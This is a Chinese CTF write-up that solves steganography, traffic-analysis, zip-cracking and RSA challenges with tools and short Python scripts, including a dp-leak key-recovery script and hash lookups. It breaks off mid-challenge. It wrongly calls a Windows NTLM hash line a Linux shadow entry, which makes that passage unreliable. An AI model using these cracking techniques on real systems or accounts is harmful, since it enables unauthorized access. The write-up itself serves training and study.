




# MISC
## 1、easy_image
直接使用风大图片宽高一把梭

flag：flag{f06716952db214713594}
## 2、hacker做了什么
扔到破空一把梭

cyberchef解

flag：flag{si11yb0yemmm}
## 3、In_the_Morse_Garden
pdf进入编辑模式

base64解码

```
依古比古玛卡巴卡玛卡巴卡 依古比古玛卡巴卡 玛卡巴卡依古比古 依古比古依古比古玛卡巴卡玛卡巴卡依古比古玛卡巴卡 依古比古玛卡巴卡 玛卡巴卡依古比古 依古比古依古比古玛卡巴卡玛卡巴卡依古比古玛卡巴卡 玛卡巴卡玛卡巴卡 依古比古玛卡巴卡 玛卡巴卡依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古依古比古玛卡巴卡玛卡巴卡依古比古玛卡巴卡 玛卡巴卡依古比古依古比古依古比古 依古比古玛卡巴卡 玛卡巴卡依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古玛卡巴卡 玛卡巴卡依古比古玛卡巴卡依古比古玛卡巴卡玛卡巴卡
```
mose解码

flag：flag{WAN_AN_MAKA_BAKAAAAA}
## 4、magic_word
010打开:

应该是zip压缩包，解压：

找到可疑文件

使用notepad++打开，发现可打印字符7027，但实际长度却又7569，应该是零宽隐写

网站解密

flag：flag{We1come_new_ctfer}
## 5、linux
010查看，是个elf文件。


去linux，使用strings命令读一下，发现好多flag

使用命令到处txt文件：
```
strings /root/Desktop/polymer | grep "flag" > out1.txt
```
查找“flag{”有556个

把“flag{n0t_th3_fl4g_l0l}”全部替换为空，再查找“flag{”，找到

flag{ju5t_4n0th3r_str1ng5_pr0bl3m_0159394921} 
## 6、wifi协议分析
扔到破空一把梭

flag{ffb7567a1d4f4abdffdb54e022f8facd}
## 7、zip解压特性分析
打开zip压缩包，到开autorun，指向autoflag - 副本 (32)

尝试ida打开autoflag - 副本 (32)
找到flag

flag{29a0vkrlek3eu10ue89yug9y4r0wdu10}
## 8、被加密的生产流量
找到一个可疑流量，追踪tcp流

把可疑字符粘贴出来，然后替换掉“.”。得到
```
MMYWMX3GNEYWOXZRGAYDA===
```
cyberchef一把梭

flag{c1f_fi1g_1000}
## 9、多层图片解密
题目提示：

附件gif图片，有12个图层
第一张图：80%的人掌握着世界上 20%的财富，20%的人掌握着世界上 80%的财富。这句话在网上一
搜，便能知道这是著名的 28 定律，那就是猜 28 了
第二场图：八卦图，不必多说 08
第三张图：三十而立，而立之年当然是 30
第四张图：北斗七星，那就是 07 了
第五张图：四大才子 04
第六张图：最近被歼-20 刷屏了，百度一下歼-20 连图片都是一样的， 所以这里是 20
第七张图：两行黄鹂鸣翠柳 02
第八张图：这里其实可以猜五个人 05，但是不对，后来想到谐音梗，一起=17，所以这里是 17
第九张图：乔丹 23
第十张图： 一马当先 01
第十一张图：12 星座 12
第十二张图：新闻联播嘛，永远的晚上 7 点。 19
所以连起来就是 28-08-30-07-04-20-02-17-23-01-12-19 md5 加密一下，所以 flag 为


flag{d93b7da38d89c19f481e710ef1b3558b}
## 10、解密
不知道是个啥文件，用010看看

就是一串字符，扔cyberchef发现解不出，研究一下发现“R1Va”重复出现，按这个标志分段扔cyberchef解，发现就最后两端能解出。
```
R1VaREdNSlZHWTNEQ05KU0dRMlRNTkJVSVUyVEdOU0RHWTJESVFKVkdNMlRJTkNGR1UzREtNSlRHQVpUS05DQ0dVMlRHTUJXR1EyVEVOQ0VHWkJUS01SVUhBMlRJTkpWRzRZREtOWlZHSVpUQU5TQ0c0NFRLTlJV
解出：523156615245644E536C644A53544E565130354B553064524D6C52485455705752306B79564

R1VaVFNOQ0dHVTJUR01CVkdJMkRRTkpYR1UyRElRSlVHVTJUR05KVkdNNFRJTVpWR1kzRUVOUlVHUkFUSVJCV0lNMlRFTkNCR1UyRE1RUlVJVTJET05KU0dNWVRJTkpYSEUyVE1OQlZHNDJESVJSVkdFM0VHTkpTR1E0REtNSlZHWTNUQU5KVkdVWlRLTkpUR1UzRENOSlhHWkJETU5CVkdZMlRPTkpX
解出：5394F5530524857544A4553553943566B644A4D6C524A546B4E47523145795645744F516C52485156705553553561576B64565756

R1VaRElPQlZHUTJUS05DQkdVNERLTVJUR0UyREtOWlpHVVpES05KWEdRMkVNTkpUR1pCVE1PQlVIQTJUT05TQ0dSQVRLTkpWR01aVEFNWlJHVVpUS05SVkdVM0RJTktCR1JDRE1RWlZHSTJFQ05KVUdVM0RPTUJWR0kyVEVNWlJHUkFUSU1SVkdZMkRLTlpVR1VZREtNSldJTTJVQ05CWUdVWlRLTlJYR0EyVEtOSlJHVTJUR05KVkdRMlRFTkJWR1kyREtRSlZHNDJUTU5KU0dSQlRLTkJXSU0yRUNOSldHVVpER01KVkdVM1RTTkpTR1UyVE9OQlVJWTJUQ01aUUdWQVRJT0JWR1kyVElOQ0ZHVTJUS05CVkdZMkRNTlJSR1UzREdNQldHUTJURU5DRUdaQkRLTVJWR0kyVElOU0NHNFlES09CVkdJWlRDTlpRR1FaVEtNUlVHVTNUSU5DRkdVMlRNUVpWR1kyRFFOSldHVTJESVFKVkdVMlRHTkpWR00yVElRUlZHWTNFRU5SVUdSQ1RLTlpWR1kyVEVOQ0RHVTJES05SWEdBMlRPTkpTR01ZVE1RUlhIRTJURU5CVkc0MkRJUlJWR1UzRUdOSldHUTRES05KV0lJMkVLTkpW
解出：RHTUJXR1EyRUtOSlhHWkJUS01SVUdZMlRJTVpRR1JBVEtPQlZHSVpUQU5TREdZWVRLTlJVR1UyRUtOQ0ZHVTNUTVFaV0dRMkRRTkpXR1pCREtNUlVHVTJUSU5KVkdNWVRLTVpWR1kyREtOUlVHUkNU

R1VaVEdNQlRHVTNEQ05KV0dNWURNUVpVSVUyRUlOU0RHVVpESU5SVkdRM0VFTkNCR1U0REtNUlRHRTJUS05aWkdVWkRJTkpUR0UyVEVOSlZHWkJUTU9CVUhBMlRLTkpVR1JBVElOSlZHVTJUS01aVkdSQkRLTkpUR0EzRElOQ0ZHVTNUS05KVkdJMkRRTkpVR1UyVElRSlZIRTJUR05KVkdVMlRPT0pWR1kyREtOSldHUkRES01KV0lNMlVDTkJZR1UzVEtOQlVJRTJES05KVEdVM0RJUUpWR00yVE1OU0NHWTJESU5SVUlRWlRBTkpXR1E0REtOQldJSTJFS05CWEdVWkRHTUpV
解出：S05aV0lNMlRFTkJXR1UyRE1RUlhHUTJEUU5KU0dNWURHTUJYSUUyVEVOQlZHWTJESVJSVkdFM0VHTkNGR1.

R1VaVEFOSldHUTJUT05CVUlVMlRLTlNER1ZBVElPQlZHVTJUSU5DQkdRM0RLTVpUR0FaVEtOQ0NHVTNER01CV0dRMlRNTkpYR1pCVEtNUlVJTTJUSU5TQ0dSQVRLTkpWR0laVEFOQldHWVlUS05SVUdZMkVLTkNH
解出：5305645744E556C5A4855544A465330354B56306456576C524C546B4A555230466156464E4F


R1VaVE1RWlVHWTJEUU5KV0dVM0RNUVpWR1UyVEVNWlJHUkFUSU1aVkdZMkRLTlNE
解出：Thu 1 January 1970 00:00:00.000 UTC

R1VaREtNQlZHUVpUQU1aWkdVWURLTkJUR0FaVFM9PT0=
解出：Fri 22 August 1986 00:25:03.950 UTC
```
后来把最后两端剔除，上面的加一起扔cyberchef，出flag！cyberchef好强！

去掉特殊符号flag{3b16_b32_64}
## 11、流量分析与Linux命令
分析流量，追踪tcp流

就这一个信息，结合题目名字，应该是再linux种解了一个压缩包，密码是“supercomplexpassword”，猜测这个pcap文件中应该还有东西，foremost一下，果然有个zip，输入密码：supercomplexpassword

flag{this_flag_is_your_flag}
## 12、社什么社
题目有提示：

unicode解码为“湖南 古城”

打开附件是一个txt，缩小，可以看出是“凤凰古城”

md5加密一下，得到flag

flag{4f0198127a45f66c07a5b1a2dda8223c}
## 13、文件在哪
img文件直接foremost，发现两个压缩包，打开发现flag

flag{73D3DA963F7505E9}

正规解法：
提示恢复硬盘文件，利用DiskGenius进行恢复
把img镜像文件拖进DiskGenius


中文版的：

找到被删除的Flag.rar
flag{73D3DA963F7505E9}

## 14、SQL日志
题目提示：

打开附件日志，在日志的最末尾，显示了SQL注入时注入的库、表与字段


根据提示：格式为“数据库名_表名_字段名”，例如database_table_column
flag{sqli_flag_flag}

## 15、Here
下载附件，用D盾扫描

发现可以文件，打开第二个文件发现flag

flag{oh_you_catch_the_bug}

**这个题想的太多了，中间也用D盾扫了，但只看了第一个文件，没看第二个，着急+粗心**

## 16、找 找
打开附件，发现有密码，文件查看，在最后发现密码：PPPaAaS

提出两个文件，一个MP3文件一个rar压缩文件（有密码），密码应该在MP3中。

用audacity打开，发现末尾的莫斯密码，手撸


```
-.. ....- ...-- ----. -.... ...-- . ----. ..--- -... ----- .---- ..--- .- .- -...
```
解码：
```
D43963E92B012AAB
```
16进制解不出，查询md5，常用的那个md5查询[传送门](https://www.cmd5.com/default.aspx)发现收费，用这个链接[传送门](https://www.somd5.com/)


压缩包的密码n1ce_try，打开有两张图片
第一张图片修改高度得到一段文本Veni,Vidi,Vici

把Veni,Vidi,Vici 在百度搜一下

暗示凯撒
将gif分割，得到一串文本：bFyd_W1l3_Cah
将这段文本进行凯撒，得到最终结果

flag{sWpu_N1c3_Try}

## 17、耗子尾汁
题目提示：

那就用binwalk
使用 binwalk分离gif的文件，得到一段视频
视频逐帧可以看到一段base64


得到解压密码：sign_in
视频中也藏有一个压缩包，使用sign_in去解压，得到一段文本。
 Base64 -> Base32 -> Base16解码，得到：
 ```
 lvueiakxudsyqehszqhykggsyylkvvi
 ```
 并且得到提示：最后
一层是单表替换密码，词频分析qiupiu[传送门](https://quipqiup.com/)
得到
```
flag you have signed in successfully
```
加一下下划线
flag{you_have_signed_in_successfully}

## 18、tiger
开局解压一下文件，看看tips.txt


```
1.These are rot for 47 days
2.Have you heard that lsb steganography also requires a password?
```
These are rot for 47 days很容易联想到rot47，使用rot47将png-key.txt进行位移即可得出图片的key：
28a217fe

随后根据tips中的Have you heard that lsb steganography also requires a password?猜测到使用了需
要密码的lsb，也就是cloacked-pixel，直接跑脚本解密
```
py -2 lsb.py extract C:\Users\Administrator\Desktop\tiger\key.png-stego.png 1.txt 28a217fe
```


解出：
```
71zr9H6jnXRHn64WBxMbCzz16saCZWiw
```
这样我们就得到了where.zip的密码，也就是71zr9H6jnXRHn64WBxMbCzz16saCZWiw，将where.zip
解密出来，看到两个压缩包，发现共同存在information.txt，构成明文攻击，直接攻击出flag.zip的密码


用密码：Nh6i@=
随后解压出了一个名为flag的文件，通过查看文件头发现是png，我们给它加上后缀，使用图片编辑器打开


扫码得到一堆问号
在线扫码：https://www.lddgo.net/image/qrcodescanner
这里注意得用在线扫码，用QR扫得到是这个：

也能说明有零宽隐写

使用在线扫码得到flag is not here
说明中间有隐藏字符，很容易联想到零宽
然后前往 https://yuanfux.github.io/zero-width-web/ 解密零宽

得到：
```
Ƀwl wvn n xhkm SBWav krttqbu gfq gja jhheu up yljycxjpu, vvtx R jzeh pydv usd zp lalhmk, ic brtkac ya whep{866q3755-t358-5119-txnr-juw666e8099m}, uroa okv!
```
很容易发现这是维吉尼亚密码，我们爆破一下密钥，得到最终的flag

flag{866d3755-c358-5119-abeb-bda666a8099d}

## 19、细狗
先foremost，解出压缩包，然后风大神一键解png宽高工具，解出;

得到：flag{ad58902f5be53d4cba5472}

## 20、zero
题目：
```
​​​​​​​​Lorem ipsum​​​​​​​ dolor ‌‌‌‌‍‍‍sit​​​​​​​​ amet​​​​​​​​​‌‌‌‌‍‍‌, consectetur ​​​​​​​adipiscing​​​​​​​‌‌‌‌‍‬‍‬ elit​​​​​​​.‌‌‌‌‍‬‌​​​​​​​‌‌‌‌‍‬‌‍ Phasellus quis​​​​​​​ tempus​​​​​​ ante, ​​​​​​​​nec vehicula​​​​​​​​​​​​​​​​ mi​​​​​​​​. ​​​​​​​‌‌‌‌‍‬‍Aliquam nec​​​​​​​​​‌‌‌‌‍‬ nisi ut neque​​​​​​​ interdum auctor​​​​​​​.‌‌‌‌‍‍ Aliquam felis ‌‌‌‌‍‬‬‌orci​​​​​​​, vestibulum ‌‌‌‌‍‬‍sit ​​​​​​​amet​​​​​​​​​ ante‌‌‌‌‍‌‬ at​​​​​​​, consectetur‌‌‌‌‍‌ lobortis eros​​​​​​​​​.‌‌‌‌‍‍‍‌ ‌‌‌‌‍‌‌‌​​​​​​​Orci varius​​​​​​​ ​​​​​​​natoque ‌‌‌‌‍‌penatibus et ‌‌‌‌‍‬‌​​​​​​​magnis‌‌‌‌‌‌‍‌‌‌‌‌‌‍ dis ​​​​​​​‌‌‌‌‍‍parturient montes, ​​​​​​​nascetur ridiculus ‌‌‌‌‌‍‌​​​​​​​​​​​​​​‌‌‌‌‌‬‍mus. In finibus‌‌‌‌‌‌‬ magna​​​​​​‌‌‌‌‌‍ mauris, quis‌‌‌‌‍‬‌‍ auctor ‌‌‌‌‍‬‌‍libero congue quis. ‌‌‌‌‍‬‬‬Duis‌‌‌‌‍‬‌‬ sagittis consequat urna non tristique. Pellentesque eu lorem ‌‌‌‌‍‌‍id‌‌‌‌‍‬‬ quam vestibulum ultricies vel ac purus‌‌‌‌‌‌‍.‌‌‌‌‌‍‌‌‌‌‌‍‍

```
根据提示，应该是零宽隐写，在线网站解
utflag{whyNOT@sc11_4927aajbqk14}

替换后flag{whyNOTsc11_4927aajbqk14}

## 21、喜欢我的压缩包吗
第一步爆破，得到密码

密码是4678，进一步解压出一个文件和一个压缩包
压缩包是伪加密，打开得到
```
synt{35n16sq1-897r-34o7-8o20-qsr67132nos8}
```
凯撒解出：
flag{35a16fd1-897e-34b7-8b20-dfe67132abf8}

# CRYPTO
## 1、猫猫的礼物
文件内容：

没啥头绪，百度了一下才知道：
德国数学家莱布尼茨（Leibniz）于 1674 年曾提出 Gregory-Leibniz 公式来计算π：
$$
\pi / 4 =1-1/3+1/5-1/7+1/9-...
$$
莱布尼茨公式计算π的脚本：
```py
def countpi():  
    N_list=[int(i) for i in input().split(",")]  
    ANS_list=[]  
    for i in N_list:  
        p = 0;  
        for j in range(1,i):  
            p += 4 * (-1)**(j-1)*(1/(2*j-1))  
        ANS_list.append(p)  
    for i in ANS_list:  
        print(i)  
if __name__ == '__main__':  
    countpi()
```
得到结果：圆周率，PI，再联想一下得到食物派，即pie。
提交：flag{pie}
## 2、二元一次方程组
题目：
```py
import libnum
from Crypto.Util import number
from secret import flag


size = 256
e = 65537
p = number.getPrime(size)
q = number.getPrime(size)
avg = (p+q)/2
n = p*q

m = libnum.s2n(flag)
c = pow(m, e, n)

print('n = %d' % n)
print('avg = %d' % avg)
print('c = %d' % c)


# n = 5700102857084805454304483466349768960970728516788155745115335016563400814300152521175777999545445613444815936222559357974566843756936687078467221979584601
# avg = 75635892913589759545076958131039534718834447688923830032758709253942408722875
# c = 888629627089650993173073530112503758717074884215641346688043288414489462472394318700014742820213053802180    975816089493243275025049174955385229062207064503
```
RSA解二元一次方程组，直接上脚本：
```py
import z3
import libnum

n = 5700102857084805454304483466349768960970728516788155745115335016563400814300152521175777999545445613444815936222559357974566843756936687078467221979584601
avg = 75635892913589759545076958131039534718834447688923830032758709253942408722875
c = 888629627089650993173073530112503758717074884215641346688043288414489462472394318700014742820213053802180975816089493243275025049174955385229062207064503
e = 65537

s = z3.Solver()
p, q = z3.Ints('p q')
s.add(p*q == n)
s.add((p+q)/2 == avg)
print(s.check())
m = s.model()
p = m[p].as_long()
q = m[q].as_long()

phi = (p-1)*(q-1)
d = libnum.invmod(e,phi)
print(libnum.n2s(pow(c,d,n)))
```
解出:hsctf{Dl3F4TH3rRR4iin_AvAvA}

其实这个题不用解方程：
$$
\phi(n) = (p-1)(q-1)
= pq - p - q + 1
= pq - (p + q) + 1
$$
又因为：
$$
avg = (p+q)/2 即 (p+q) = 2avg
$$
代入原式得：
$$
\phi(n) = pq - 2avg + 1
= n - 2avg + 1
$$
就可以解了
## 3、告诉你个秘密
打开txt：
```
636A56355279427363446C4A49454A7154534230526D6843
56445A31614342354E326C4B4946467A5769426961453067
```
cyberchef自动解码，hex-->base64：
```
r5yG lp9I BjM tFhB
T6uh y7iJ QsZ bhM 
```
键盘上“r5yg”围着“t”，以此类推得到：flag{tongyuan}
## 4、明文密码
给的文件：
```
Administrator:500:806EDC27AA52E314AAD3B435B51404EE:F4AD50F57683D4260DFD48AA351A17A8:::
```

这好像是Linux的shadow文件，/etc/shadow 文件，用于存储 Linux 系统中用户的密码信息，又称为“影子文件”。早期的 UNIX 密码放在 /etc/passwd 文件中，由于该文件允许所有用户读取，易导致用户密码泄露，因此从 /etc/passwd 文件中分离出来，并单独放到了此文件中。/etc/shadow 文件只有 root 用户拥有读权限，保证了用户密码的安全性。
/etc/shadow 文件长这个样子：
```
root:!:17826:0:99999:7:::
daemon:*:17737:0:99999:7:::
bin:*:17737:0:99999:7:::
...太多了，省略一部分...
skx:$1$jP$V1agVNyLfEYwNQLc6IrJt0:17826:0:99999:7:::
lilei:$6$zvt9aWzy$aoZDNPL0.mXFfsJczn.9gZtHZwmFTAFIbe4qHZd48zeB1mIka7jOsrmGvGMBV8LUV.iUdr6bk0hQZyGSOPiTy/:18420:0:99999:7:::
```
文件中每行代表一个用户，使用 “:” 分隔，每行的用户信息有 9 个字段，格式如下：
```
用户名：加密密码：最后一次修改时间：最小修改时间间隔：密码有效期：密码需要变更前的警告天数：密码过期后的宽限时间：账号失效时间：保留字段
```
目前 Linux 的密码采用的是 SHA512 散列加密算法，原来采用的是 MD5 或 DES 加密算法。SHA512 散列加密算法的加密等级更高，也更加安全。

密码是F4AD50F57683D4260DFD48AA351A17A8
md5查询[https://www.cmd5.com/](https://www.cmd5.com/)
得到flag{3617656}
## 5、世上无难事
题目提示：

打开文件：
```
VIZZB IFIUOJBWO NVXAP OBC XZZ UKHVN IFIUOJBWO HB XVIXW XAW VXFI X QIXN VBD KQ IFIUOJBWO WBKAH NBWXO VBD XJBCN NKG QLKEIU DI XUI VIUI DKNV QNCWIANQ XN DXPIMKIZW VKHV QEVBBZ KA XUZKAHNBA FKUHKAKX XAW DI VXFI HBN QNCWIANQ NCAKAH KA MUBG XZZ XEUBQQ XGIUKEX MUBG PKAWIUHXUNIA NVUBCHV 12NV HUXWI XAW DI XUI SCQN QB HZXW NVXN XZZ EBCZW SBKA CQ NBWXO XAW DI DXAN NB NVXAP DXPIMKIZW MBU JIKAH QCEV XA BCNQNXAWKAH VBQN HKFI OBCUQIZFIQ X JKH UBCAW BM XLLZXCQI XAW NVI PIO KQ 640I11012805M211J0XJ24MM02X1IW09
```
应该是词频分析，直接上网址：[https://quipqiup.com/](https://quipqiup.com/)
解出：
```
HELLO EVERYBODY THANK YOU ALL RIGHT EVERYBODY GO AHEAD AND HAVE A SEAT HOW IS EVERYBODY DOING TODAY HOW ABOUT TIM SPICER WE ARE HERE WITH STUDENTS AT WAKEFIELD HIGH SCHOOL IN ARLINGTON VIRGINIA AND WE HAVE GOT STUDENTS TUNING IN FROM ALL ACROSS AMERICA FROM KINDERGARTEN THROUGH 12TH GRADE AND WE ARE JUST SO GLAD THAT ALL COULD JOIN US TODAY AND WE WANT TO THANK WAKEFIELD FOR BEING SUCH AN OUTSTANDING HOST GIVE YOURSELVES A BIG ROUND OF APPLAUSE AND THE KEY IS 640E11012805F211B0AB24FF02A1ED09
```
最后就是flag，转小写提交：
flag{640e11012805f211b0ab24ff02a1ed09}
## 6、RSADP
dp泄露，直接上脚本：
```py
import libnum
import gmpy2

# n= 15490329974794812647207350945845678224681604428642220566423366180973839697096441619340018253695472604335938643849069014103520861300713053955205392905536446156153192076633656788424185734898016745641378430506574498111680248029123341493733599302123100131134215957579162168779228208387783035893621162016993340603475960735061572761512755519616410410615413820180757126318567325096339342686253738778178380191340135516056457473854126752188188261914055391966730674861017432904735293451031131827880629989269835970170038295168392442835892108945315382078025510997711116410638765048886317360842562784200384045644008789130370444983
# e= 65537
# dp= 92421914522602787051376990773545034723755500322946639408033747477366773088952064561196722681757327451210117825346237003629597066505402384880737033044776720946764227004188812078355462119361676746112866393394866072449432108301690846327127554699521545673830710939287951837844749172755258073462248214264511338895
# c= 11917967705200196530423914441613144297148147672566202863977167024519218321836386637302409557947445841293888462405994683655441879000427977086221906497225533946193332303182079068462781262341197088906792898634398410298474823088739257515556595214077227746604247505450334512424047100626106474291190033258919062850451435841454816600402372026810570127115167968899329724894556092798669018218440148846597174016217159034241427361756697433952800424383010684502324285145303400856470193420837017178412747680690628590204528459258189973779463979907863227915782407651254796209362605706066438960631045833533860845111845422613428738602
e = 65537
n = 248254007851526241177721526698901802985832766176221609612258877371620580060433101538328030305219918697643619814200930679612109885533801335348445023751670478437073055544724280684733298051599167660303645183146161497485358633681492129668802402065797789905550489547645118787266601929429724133167768465309665906113
dp = 905074498052346904643025132879518330691925174573054004621877253318682675055421970943552016695528560364834446303196939207056642927148093290374440210503657

c = 140423670976252696807533673586209400575664282100684119784203527124521188996403826597436883766041879067494280957410201958935737360380801845453829293997433414188838725751796261702622028587211560353362847191060306578510511380965162133472698713063592621028959167072781482562673683090590521214218071160287665180751
for i in range(1,65535):
    p=(dp*e-1)//i+1
    if n%p==0:
        q=n//p
        break
print(p)
print(q)
phi_n= (p-1)*(q-1)
d=gmpy2.invert(e,phi_n)
m=pow(c,d,n)
print(m)
flag=libnum.n2s(int(m)).decode()
print(flag)
```
得到：flag{wow_leaking_dp_breaks_rsa?_98924743502}，提交把？去掉

## 7、Crazy RSA
题目代码：
```py
from Crypto.Util.number import *
from Crypto.Util.Padding import *

FLAG = bytes_to_long(pad(b"flag{??????}",64))
def init_key():
    p, q = getPrime(512), getPrime(512)
    n = p*q
    e = 9
    while(GCD((p-1)*(q-1),e)!=1):
        p, q = getPrime(512), getPrime(512)
        n = p*q
    d = inverse(e,(p-1)*(q-1))
    return n,e,d

n_list=list()
c_list=list()
for i in range(9):
    N,e,d=init_key()
    n_list.append(N)
    c=pow(FLAG,e,N)
    c_list.append(pow(FLAG,e,N))
    assert(pow(c,d,N)==FLAG)
print("n_list:",n_list)
print("c_list:",c_list)
```
out.txt如下：
```
n_list: [71189786319102608575263218254922479901008514616376166401353025325668690465852130559783959409002115897148828732231478529655075366072137059589917001875303598680931962384468363842379833044123189276199264340224973914079447846845897807085694711541719515881377391200011269924562049643835131619086349617062034608799, 92503831027754984321994282254005318198418454777812045042619263533423066848097985191386666241913483806726751133691867010696758828674382946375162423033994046273252417389169779506788545647848951018539441971140081528915876529645525880324658212147388232683347292192795975558548712504744297104487514691170935149949, 100993952830138414466948640139083231443558390127247779484027818354177479632421980458019929149817002579508423291678953554090956334137167905685261724759487245658147039684536216616744746196651390112540237050493468689520465897258378216693418610879245129435268327315158194612110422630337395790254881602124839071919, 59138293747457431012165762343997972673625934330232909935732464725128776212729547237438509546925172847581735769773563840639187946741161318153031173864953372796950422229629824699580131369991913883136821374596762214064774480548532035315344368010507644630655604478651898097886873485265848973185431559958627423847, 66827868958054485359731420968595906328820823695638132426084478524423658597714990545142120448668257273436546456116147999073797943388584861050133103137697812149742551913704341990467090049650721713913812069904136198912314243175309387952328961054617877059134151915723594900209641163321839502908705301293546584147, 120940513339890268554625391482989102665030083707530690312336379356969219966820079510946652021721814016286307318930536030308296265425674637215009052078834615196224917417698019787514831973471113022781129000531459800329018133248426080717653298100515701379374786486337920294380753805825328119757649844054966712377, 72186594495190221129349814154999705524005203343018940547856004977368023856950836974465616291478257156860734574686154136925776069045232149725101769594505766718123155028300703627531567850035682448632166309129911061492630709698934310123778699316856399909549674138453085885820110724923723830686564968967391721281, 69105037583161467265649176715175579387938714721653281201847973223975467813529036844308693237404592381480367515044829190066606146105800243199497182114398931410844901178842049915914390117503986044951461783780327749665912369177733246873697481544777183820939967036346862056795919812693669387731294595126647751951, 76194219445824867986050004226602973283400885106636660263597964027139613163638212828932901192009131346530898961165310615466747046710743013409318156266326090650584190382130795884514074647833949281109675170830565650006906028402714868781834693473191228256626654011772428115359653448111208831188721505467497494581]
c_list: [62580922178008480377006528793506649089253164524883696044759651305970802215270721223149734532870729533611357047595181907404222690394917605617029675103788705320032707977225447998111744887898039756375876685711148857676502670812333076878964148863713993853526715855758799502735753454247721711366497722251078739585, 46186240819076690248235492196228128599822002268014359444368898414937734806009161030424589993541799877081745454934484263188270879142125136786221625234555265815513136730416539407710862948861531339065039071959576035606192732936477944770308784472646015244527805057990939765708793705044236665364664490419874206900, 85756449024868529058704599481168414715291172247059370174556127800630896693021701121075838517372920466708826412897794900729896389468152213884232173410022054605870785910461728567377769960823103334874807744107855490558726013068890632637193410610478514663078901021307258078678427928255699031215654693270240640198, 14388767329946097216670270960679686032536707277732968784379505904021622612991917314721678940833050736745004078559116326396233622519356703639737886289595860359630019239654690312132039876082685046329079266785042428947147658321799501605837784127004536996628492065409017175037161261039765340032473048737319069656, 1143736792108232890306863524988028098730927600066491485326214420279375304665896453544100447027809433141790331191324806205845009336228331138326163746853197990596700523328423791764843694671580875538251166864957646807184041817863314204516355683663859246677105132100377322669627893863885482167305919925159944839, 2978800921927631161807562509445310353414810029862911925227583943849942080514132963605492727604495513988707849133045851539412276254555228149742924149242124724864770049898278052042163392380895275970574317984638058768854065506927848951716677514095183559625442889028813635385408810698294574175092159389388091981, 